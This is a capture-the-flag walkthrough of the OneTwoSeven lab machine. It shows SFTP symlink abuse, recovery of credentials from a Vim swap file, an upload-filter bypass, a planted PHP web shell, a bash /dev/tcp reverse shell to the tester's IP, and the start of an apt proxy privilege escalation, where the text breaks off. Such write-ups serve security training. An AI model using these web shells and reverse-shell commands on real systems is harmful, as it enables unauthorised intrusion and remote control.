








## Enumeration

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 32:b7:f3:e2:6d:ac:94:3e:6f:11:d8:05:b9:69:58:45 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFTThOIf++CjOW9k0u9QGq2ocQ/VZZsMqhDsylciI5ZBNguOuOTAP+isLEikqZoa4inOlAqkD6r8sDhRZilSLyI=
|   256 35:52:04:dc:32:69:1a:b7:52:76:06:e3:6c:17:1e:ad (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMIeKC0uIrZ+sRG5K3tk7RH5HszmPp1Zt4T9yPw4CjaJ
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Page moved.
|_http-server-header: Apache/2.4.25 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the nmap scan, we discover 2 open ports: one running ssh and another one running http, we can notice the `Apache/2.4.25`version that seems outdated and a quick [google search](https://lwn.net/Articles/709890/) shows that it is old 
==> We can immediately head over to it and see what it is about 
### Website
After some exploration of the website, we find these pages:





The last one seems particularly interesting as we get some credentials:
- `ots-iOTdjZWI` - `72b97ceb`
And we also notice that they mention: `sftp://onetwoseven.htb` and a link to our home page. Going over to it shows us this page:


But it seems empty.

==> One thing also worth noticing is the disabled `Admin`button at the top. By examining the source code, we find this:

```html
<div class="collapse navbar-collapse" id="navbarCollapse">
      <ul class="navbar-nav mr-auto">
        <li class="nav-item active"><a class="nav-link" href="[/index.php](view-source:http://10.129.105.67/index.php)">Home<span class="sr-only">(current)</span></a></li>
        <li class="nav-item"><a class="nav-link" href="[/stats.php](view-source:http://10.129.105.67/stats.php)">Statistics</a></li>
        <!-- Only enable link if access from trusted networks admin/20190212 -->
        <!-- Added localhost admin/20190214 -->
		  <li class="nav-item"><a id="adminlink" class="nav-link disabled" href="[http://onetwoseven.htb:60080/](view-source:http://onetwoseven.htb:60080/)">Admin</a></li>
	      </ul>
    </div>
```

Where we can get: `http://onetwoseven.htb:60080`, unfortunately the website does not seem to be loading when accessing it directly.
### SFTP
Using the provided credentials, we can login to the `SFTP`server:

```bash
sftp ots-iOTdjZWI@10.129.105.67 
```

Then we can look around for information and we see a file:

```bash
sftp> ls
public_html  
sftp> cd public_html/
sftp> ls
index.html  
sftp> ls -la
drwxr-xr-x    ? 1001     1001         4096 Feb 15  2019 .
drwxr-xr-x    ? 0        0            4096 Dec 22 21:28 ..
-rw-r--r--    ? 1001     1001          349 Feb 15  2019 index.html
```

We can then download this file to inspect it:

```bash
sftp> get index.html 
Fetching /public_html/index.html to index.html
index.html                                     100%  349     6.8KB/s   00:00    
```

and we see that it contains:

```html
<!DOCTYPE html>
<html>
<head>
<title>Nothing here.</title>
<style>body { margin:0; padding:0; background:url("/dist/img/abstract-architecture-attractive-988873.jpg") no-repeat center center fixed; -webkit-background-size: cover; -moz-background-size: cover; -o-background-size: cover; background-size: cover; }</style>
</head>
<body></body>
</html>
```

--> This seems to be a dead end. Now there is not much else we can do, so let's focus a bit more on the capabilities of `SFTP` -> we can start by displaying the list of available commands:

```bash
sftp> ?
Available commands:
bye                                Quit sftp
cd path                            Change remote directory to 'path'
chgrp [-h] grp path                Change group of file 'path' to 'grp'
chmod [-h] mode path               Change permissions of file 'path' to 'mode'
chown [-h] own path                Change owner of file 'path' to 'own'
copy oldpath newpath               Copy remote file
cp oldpath newpath                 Copy remote file
df [-hi] [path]                    Display statistics for current directory or
                                   filesystem containing 'path'
exit                               Quit sftp
get [-afpR] remote [local]         Download file
help                               Display this help text
lcd path                           Change local directory to 'path'
lls [ls-options [path]]            Display local directory listing
lmkdir path                        Create local directory
ln [-s] oldpath newpath            Link remote file (-s for symlink)
lpwd                               Print local working directory
ls [-1afhlnrSt] [path]             Display remote directory listing
lumask umask                       Set local umask to 'umask'
mkdir path                         Create remote directory
progress                           Toggle display of progress meter
put [-afpR] local [remote]         Upload file
pwd                                Display remote working directory
quit                               Quit sftp
reget [-fpR] remote [local]        Resume download file
rename oldpath newpath             Rename remote file
reput [-fpR] local [remote]        Resume upload file
rm path                            Delete remote file
rmdir path                         Remove remote directory
symlink oldpath newpath            Symlink remote file
version                            Show SFTP version
!command                           Execute 'command' in local shell
!                                  Escape to local shell
?                                  Synonym for help
```

Immediately, the `symlink`command seems interesting, as it allows us to create a link to a remote file, let's try that:

```bash
sftp> symlink / public_html/root
```

And this will create a `symlink` between the root of the website and `public_html/root`, we can then try to visit our own home page again, this time under `/root/`:


And this time we see something! We can then click around to explore the file system, and we quickly see that we get errors saying that we don't have enough permissions on everything except `var`:


However, when exploring `/www`, we end up seeing:


And the `.login.php.swp`file seems intriguing -> We can download it and have a look at it:
First we can check what kind of file it is:

```bash
file login.php.swp 
login.php.swp: Vim swap file, version 8.0, pid 1861, user root, host onetwoseven, file /var/www/html-admin/login.php
```

and finally check its content:

```html
b0VIM 8.0{u\k*Erootonetwoseven/var/www/html-admin/login.phputf-8
3210#"! UtpNP\ad�N�dTC:��B�
�
�
w
v
j
�sf9	����L�
a
S

	

�	�	�	�	�	x	-	#		���O�����J��r(������32
����8(�=&������|uC��	    <table>            <h4 class = "form-signin-heading"><font size="-1" color="red"><?php echo $msg; ?></font></h4>         <form action="/login.php" method="post">            <div class = "container">            </div> <!-- /container -->         ?>            }              }    				      		   	      if ($_POST['username'] == 'ots-admin' && hash('sha256',$_POST['password']) == '11c5a42c9d74d5442ef3cc835bda1b3e7cc7f494e704a10d0de426b2fbe5cbd8') {            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {                        $msg = '';          <?php        <h2 class="featurette-heading">Login to the kingdom.<span class="text-muted"> Up up and away!</span></h2>      <div class="col-md-12">    <div class="row featurette">    <!-- START THE FEATURETTES -->  <div class="container marketing">  <!-- Wrap the rest of the page in another container to center all the content. -->  ================================================== -->  <!-- Marketing messaging and featurettes  </div>    </a>      <span class="sr-only">Next</span>      <span class="carousel-control-next-icon" aria-hidden="true"></span>    <a class="carousel-control-next" href="#myCarousel" role="button" data-slide="next">    </a>      <span class="sr-only">Previous</span>      <span class="carousel-control-prev-icon" aria-hidden="true"></span>    <a class="carousel-control-prev" href="#myCarousel" role="button" data-slide="prev">    </div>      </div>        </div>          </div>            <p>Administration backend. For administrators only.</p>            <h1>OneTwoSeven Administration</h1>          <div class="carousel-caption text-left">        <div class="container">              <div class="carousel-item active">    <div class="carousel-inner">    </ol>      <li data-target="#myCarousel" data-slide-to="0" class="active"></li>    <ol class="carousel-indicators">  <div id="myCarousel" class="carousel slide" data-ride="carousel"><main role="main"></header>  </nav>    </div>    <div class="collapse navbar-collapse" id="navbarCollapse">    </button>      <span class="navbar-toggler-icon"></span>    <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarCollapse" aria-controls="navbarCollapse" aria-expanded="false" aria-label="Toggle navigation">    <a class="navbar-brand" href="/login.php">OneTwoSeven - Administration Backend</a>  <nav class="navbar navbar-expand-md navbar-dark fixed-top bg-dark">    <header>  <body>  </head>    <link href="carousel.css" rel="stylesheet">    <!-- Custom styles for this template -->    </style>      @media (min-width: 768px) { .bd-placeholder-img-lg { font-size: 3.5rem; } }      .bd-placeholder-img { font-size: 1.125rem; text-anchor: middle; -webkit-user-select: none; -moz-user-select: none; -ms-user-select: none; user-select: none; }    <style>    <link href="/dist/css/bootstrap.min.css" rel="stylesheet" crossorigin="anonymous">    <!-- Bootstrap core CSS -->    <title>OneTwoSeven</title>    <meta name="generator" content="Jekyll v3.8.5">    <meta name="author" content="Mark Otto, Jacob Thornton, and Bootstrap contributors">    <meta name="description" content="">    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">    <meta charset="utf-8">  <head><html lang="en"><!doctype html><?php session_start(); if (isset ($_SESSION['username'])) { header("Location: /menu.php"); } ?><?php if ( $_SERVER['SERVER_PORT'] != 60080 ) { die(); } ?>ad����}ped@?�
�
�
�
�
�
*


a���</html>      <script>window.jQuery || document.write('<script src="/docs/4.3/assets/js/vendor/jquery-slim.min.js"><\/script>')</script><script src="dist/js/bootstrap.bundle.min.js" crossorigin="anonymous"></script></body><script src="https://code.jquery.com/jquery-3.3.1.slim.min.js" integrity="sha384-q8i/X+965DzO0rT7abK41JStQIAqVgRVzpbzo5smXKp4YfRvH+8abtTE1Pi6jizo" crossorigin="anonymous"></script></main>  </footer>    <p>&copy; 2019 OneTwoSeven, Dec. &middot; <a href="#">Privacy</a> &middot; <a href="#">Terms</a></p>    <p class="float-right"><a href="#">Back to top</a></p>  <footer class="container">  <!-- FOOTER -->  </div><!-- /.container -->    <!-- /END THE FEATURETTES -->    <hr class="featurette-divider">    </div>	     </div>         </form>            </table>              <tr><td colspan="2"><center><button type="submit" name="login">Login</button></center></td></tr>              <tr><td><b>Password:</b></td><td><input type="password" name="password" size="40" required></td></tr>              <tr><td><b>Username:</b></td><td><input type="text" name="username" size="40" required autofocus></td></tr>ad�
5���WG9-���B5	    <table>            <h4 class = "form-signin-heading"><font size="-1" color="red"><?php echo $msg; ?></font></h4>         <form action="/login.php" method="post">            <div class = "container">            </div> <!-- /container -->         ?>            }              }                  $msg = 'Wrong username or password.';              } else {		  header("Location: /menu.php");                  $_SESSION['username'] = 'ots-admin';
```

From there, we can extract credentials for the admin backend:
- `ots-admin`- `Homesweethome1`
As the hash cracks to the password above using [Crackstation](https://crackstation.net/)

#### Note
It works this way but we can also recover the full content of the file by using:

```bash
vim -r login.php.swp
```

and we recover the entire content of the source code:

```html
<?php if ( $_SERVER['SERVER_PORT'] != 60080 ) { die(); } ?>
<?php session_start(); if (isset ($_SESSION['username'])) { header("Location: /menu.php"); } ?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="">
    <meta name="author" content="Mark Otto, Jacob Thornton, and Bootstrap contributors">
    <meta name="generator" content="Jekyll v3.8.5">
    <title>OneTwoSeven</title>

    <!-- Bootstrap core CSS -->
    <link href="/dist/css/bootstrap.min.css" rel="stylesheet" crossorigin="anonymous">

    <style>
      .bd-placeholder-img { font-size: 1.125rem; text-anchor: middle; -webkit-user-select: none; -moz-user-select: none; -ms-user-select: none; user-select: none; }
      @media (min-width: 768px) { .bd-placeholder-img-lg { font-size: 3.5rem; } }
    </style>
    <!-- Custom styles for this template -->
    <link href="carousel.css" rel="stylesheet">
  </head>
  <body>
    <header>
  <nav class="navbar navbar-expand-md navbar-dark fixed-top bg-dark">
    <a class="navbar-brand" href="/login.php">OneTwoSeven - Administration Backend</a>
    <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarCollapse" aria-controls="navbarCollapse" aria-expanded="false" aria-label="Toggle navigation">
      <span class="navbar-toggler-icon"></span>
    </button>
    <div class="collapse navbar-collapse" id="navbarCollapse">
    </div>
  </nav>
</header>

<main role="main">

  <div id="myCarousel" class="carousel slide" data-ride="carousel">
    <ol class="carousel-indicators">
      <li data-target="#myCarousel" data-slide-to="0" class="active"></li>
    </ol>
    <div class="carousel-inner">
      <div class="carousel-item active">
        
        <div class="container">
          <div class="carousel-caption text-left">
            <h1>OneTwoSeven Administration</h1>
            <p>Administration backend. For administrators only.</p>
          </div>
        </div>
      </div>
    </div>
    <a class="carousel-control-prev" href="#myCarousel" role="button" data-slide="prev">
      <span class="carousel-control-prev-icon" aria-hidden="true"></span>
      <span class="sr-only">Previous</span>
    </a>
    <a class="carousel-control-next" href="#myCarousel" role="button" data-slide="next">
      <span class="carousel-control-next-icon" aria-hidden="true"></span>
      <span class="sr-only">Next</span>
    </a>
  </div>


  <!-- Marketing messaging and featurettes
  ================================================== -->
  <!-- Wrap the rest of the page in another container to center all the content. -->

  <div class="container marketing">

    <!-- START THE FEATURETTES -->

    <div class="row featurette">
      <div class="col-md-12">
        <h2 class="featurette-heading">Login to the kingdom.<span class="text-muted"> Up up and away!</span></h2>
          <?php
            $msg = '';
            
            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
	      if ($_POST['username'] == 'ots-admin' && hash('sha256',$_POST['password']) == '11c5a42c9d74d5442ef3cc835bda1b3e7cc7f494e704a10d0de426b2fbe5cbd8') {
                  $_SESSION['username'] = 'ots-admin';
		  header("Location: /menu.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
            }
         ?>
      </div> <!-- /container -->
      
      <div class = "container">
      
         <form action="/login.php" method="post">
            <h4 class = "form-signin-heading"><font size="-1" color="red"><?php echo $msg; ?></font></h4>
	    <table>
              <tr><td><b>Username:</b></td><td><input type="text" name="username" size="40" required autofocus></td></tr>
              <tr><td><b>Password:</b></td><td><input type="password" name="password" size="40" required></td></tr>
              <tr><td colspan="2"><center><button type="submit" name="login">Login</button></center></td></tr>
            </table>
         </form>
	     </div>
    </div>

    <hr class="featurette-divider">

    <!-- /END THE FEATURETTES -->

  </div><!-- /.container -->


  <!-- FOOTER -->
  <footer class="container">
    <p class="float-right"><a href="#">Back to top</a></p>
    <p>&copy; 2019 OneTwoSeven, Dec. &middot; <a href="#">Privacy</a> &middot; <a href="#">Terms</a></p>
  </footer>
</main>
<script src="https://code.jquery.com/jquery-3.3.1.slim.min.js" integrity="sha384-q8i/X+965DzO0rT7abK41JStQIAqVgRVzpbzo5smXKp4YfRvH+8abtTE1Pi6jizo" crossorigin="anonymous"></script>
      <script>window.jQuery || document.write('<script src="/docs/4.3/assets/js/vendor/jquery-slim.min.js"><\/script>')</script><script src="dist/js/bootstrap.bundle.min.js" crossorigin="anonymous"></script></body>
</html>
```
### Admin panel
We then are kind of stuck and the only thing that we discovered earlier is the existence of this `Admin panel`. Since we have credentials, we might as well try them on the box to have an access coming from it as it might be whitelisted:

```bash
ssh ots-iOTdjZWI@10.129.105.67
ots-iOTdjZWI@10.129.105.67's password: 
This service allows sftp connections only.
Connection to 10.129.105.67 closed.
```

unfortunately, it seems like an `ssh` session cannot be made --> we can still use `ssh`simply for port forwarding using:

```bash
man ssh
-N      Do not execute a remote command.  This is useful for just forwarding ports.  Refer to the description of SessionType in ssh_config(5) for details.
```

We can then try to port forward with this flag set as well:

```bash
ssh -N -L 60080:127.0.0.1:60080 ots-iOTdjZWI@10.129.105.67
```

and this time it seems to work! ==> We can then head to `http://localhost:60080` and this time we have access to the `Admin panel`:


From here we can login using our previously acquired credentials:
- `ots-admin`- `Homesweethome1`
And we get welcomed by a page where we can upload plugins:



And we see that the `Submit Query`button has been disabled for `security reasons`
==> In the default plugins, we see one which reveals the default user credentials:


- `ots-yODc2NGQ`- `f528764d`
And coming back to the `sftp`session, we can get the user flag with these credentials:

```bash
sftp ots-yODc2NGQ@10.129.105.67
ots-yODc2NGQ@10.129.105.67's password: 
Connected to 10.129.105.67.
sftp> ls
public_html  user.txt     
sftp> get user.txt 
Fetching /user.txt to user.txt
user.txt
```
## Foothold
New creds: `ots-2YzE5M2U` - `2a6c193e`
We now need a way to get a foothold on the machine and this will most likely be done with the `Upload`functionality. Looking at it, we see the `OTS ADDON MANAGER`and its content:



We see that it replaces the rules `addon-upload/download.php`by `ots-man-addon.php`==> luckily, we can download it and view it:

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /login.php"); }; if ( strpos($_SERVER['REQUEST_URI'], '/addons/') !== false ) { die(); };
# OneTwoSeven Admin Plugin
# OTS Addon Manager
switch (true) {
	# Upload addon to addons folder.
	case preg_match('/\/addon-upload.php/',$_SERVER['REQUEST_URI']):
		if(isset($_FILES['addon'])){
			$errors= array();
			$file_name = basename($_FILES['addon']['name']);
			$file_size =$_FILES['addon']['size'];
			$file_tmp =$_FILES['addon']['tmp_name'];

			if($file_size > 20000){
				$errors[]='Module too big for addon manager. Please upload manually.';
			}

			if(empty($errors)==true) {
				move_uploaded_file($file_tmp,$file_name);
				header("Location: /menu.php");
				header("Content-Type: text/plain");
				echo "File uploaded successfull.y";
			} else {
				header("Location: /menu.php");
				header("Content-Type: text/plain");
				echo "Error uploading the file: ";
				print_r($errors);
			}
		}
		break;
	# Download addon from addons folder.
	case preg_match('/\/addon-download.php/',$_SERVER['REQUEST_URI']):
		if ($_GET['addon']) {
			$addon_file = basename($_GET['addon']);
			if ( file_exists($addon_file) ) {
				header("Content-Disposition: attachment; filename=$addon_file");
				header("Content-Type: text/plain");
				readfile($addon_file);
			} else {
				header($_SERVER["SERVER_PROTOCOL"]." 404 Not Found", true, 404);
				die();
			}
		}
		break;
	default:
		echo "The addon manager must not be executed directly but only via<br>";
		echo "the provided RewriteRules:<br><hr>";
		echo "RewriteEngine On<br>";
		echo "RewriteRule ^addon-upload.php   addons/ots-man-addon.php [L]<br>";
		echo "RewriteRule ^addon-download.php addons/ots-man-addon.php [L]<br><hr>";
		echo "By commenting individual RewriteRules you can disable single<br>";
		echo "features (i.e. for security reasons)<br><br>";
		echo "<font size='-2'>Please note: Disabling a feature through htaccess leads to 404 errors for now.</font>";
		break;
}
?>
```

And we see that this catches both the `upload`and `download`cases --> we need a way to bypass this and an easy way to do so is using this url:

```http
http://localhost:60080/menu.php?addon=addons/addon-download.php&/addon-upload.php
```

As since the `addon-download.php`will be changed into:

```txt
RewriteEngine On  
RewriteRule ^addon-upload.php   addons/ots-man-addon.php [L]  
RewriteRule ^addon-download.php addons/ots-man-addon.php [L]
```

we can then access the upload after --> doing this we notice that the `Submit Query`form is still disabled --> we can simply edit the source code to remove this:

```html
<form action="[addon-upload.php](view-source:http://localhost:60080/addon-upload.php)" method="POST" enctype="multipart/form-data">
    <input type="file" name="addon" />
    <input type="submit" disabled="disabled" /><sup><font size="-2" color="red"> Disabled for security reasons.</font></sup>
</form>
```

We can simply delete this part of the code and then we're able to submit files! We can then upload a `php`shell with:

```php
<?php system($_GET['cmd']); ?>
```

Now when sending the request directly like this we get an error:



This is because the `/addon-upload.php`route gets rejected, instead we can modify it to: `/addon-download.php?flan=/addon-upload.php`and this will bypass the check and allow us to successfully upload our shell:



We can then try to interact with our file and see if it was successfully uploaded by browsing to: `http://localhost:60080/addons/`and we see that it is:



==> Then upon testing the command execution we see that it works:

```bash
curl http://localhost:60080/addons/shell2.php?cmd=id
uid=35(www-admin-data) gid=35(www-admin-data) groups=35(www-admin-data)
```

We can then try to utilize this to get a reverse shell. There are two ways to my knowledge to do so:
1. Modify the uploaded file to execute the reverse shell command
2. Send a `curl` request with the payload in the `cmd`field
I'll do the second option:

```bash
curl http://localhost:60080/addons/shell2.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.153%2F4444%200%3E%251%27

rlwrap nc -lnvp 4444 listening on [any] 4444 ... connect to [10.10.14.153] from (UNKNOWN) [10.129.104.238] 44442 bash: cannot set terminal process group (1866): Inappropriate ioctl for device bash: no job control in this shell www-admin-data@onetwoseven:/var/www/html-admin/addons$ exit
```

At first this does not seem to work as the command might be a bit buggy, I managed to make it work by using:

```bash
curl -G http://localhost:60080/addons/shell2.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.153/4444 0>&1'"
```

And boom we get a shell as `www-admin-data`
## Privilege escalation
As always, starting to check if we have any `sudo`privileges actually returns something, which I was quite surprised with as it typically isn't the case with `www-data`:

```bash
www-admin-data@onetwoseven:/var/www/html-admin/addons$ sudo -l
sudo -l
Matching Defaults entries for www-admin-data on onetwoseven:
    env_reset, env_keep+="ftp_proxy http_proxy https_proxy no_proxy",
    mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-admin-data may run the following commands on onetwoseven:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get update, /usr/bin/apt-get upgrade
```

We see that we can execute `apt update`and `apt upgrade`as `sudo`, we can then check the `apt`configuration file:

```bash
www-admin-data@onetwoseven:/etc/apt$ ls
ls
apt.conf.d        preferences.d  sources.list.d
listchanges.conf  sources.list   trusted.gpg.d
```

And inside of the directory `sources.list.d/`we see one unusual source:

```bash
www-admin-data@onetwoseven:/etc/apt/sources.list.d$ cat on
cat onetwoseven.list 
# OneTwoSeven special packages - not yet in use
deb [trusted=yes] http://packages.onetwoseven.htb/devuan ascii main
```

Which means that this will be using the package at `http://packages.onetwoseven.htb/devuan`--> we can try and exploit this to make it use our own repository!! 

### Man in the middle attack
We can first export the `http_proxy`environment variable and set it to our ip:

```bash
www-admin-data@onetwoseven:/etc/apt/sources.list.d$ export http_proxy=http://10.10.14.153:8888
10.14.153:8888oxy=http://10.1
www-admin-data@onetwoseven:/etc/apt/sources.list.d$ echo $http_proxy
echo $http_proxy
http://10.10.14.153:8888
```

